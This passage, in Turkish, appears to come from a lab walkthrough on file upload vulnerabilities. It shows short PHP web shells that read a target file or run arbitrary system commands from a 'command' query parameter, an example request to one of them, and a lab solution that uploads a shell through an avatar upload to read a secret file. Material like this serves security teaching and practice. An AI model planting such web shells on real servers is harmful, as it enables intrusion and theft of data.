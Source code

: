 ```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Bir kez yüklendiğinde, zararlı dosya için gönderilecek istek, cevapta hedeflenmiş dosyanın içeriğini döndürecektir.

Daha yetenekli bir web shell aşağıdaki gibi gözükebilir:

```php
<?php echo system($_GET['command']); ?>
```

Bu script, keyfi sistem komutlarını, system fonksiyonuna argüman olarak verecektir. Buradaki sorgu parametreside <b>command</b>'dir. Aşağıdaki gibi gözükür:

```http
GET /example/exploit.php?command=id HTTP/1.1
```

### **Lab Çözümü**

![image](images/file_upload_1.PNG)

Yukarıdaki resimde, kullanıcı adı şifre ile giriş yaptığımızda, profil sayfamızda profil resmi yüklemek için bir avatar butonu görüyoruz. Lab çözümüne yönelik kendi hazırlamış olduğumuz zararlı php dosyasını web servera yükleyelim:

```php
<?php

echo file_get_contents('/home/carlos/secret');

?>
```
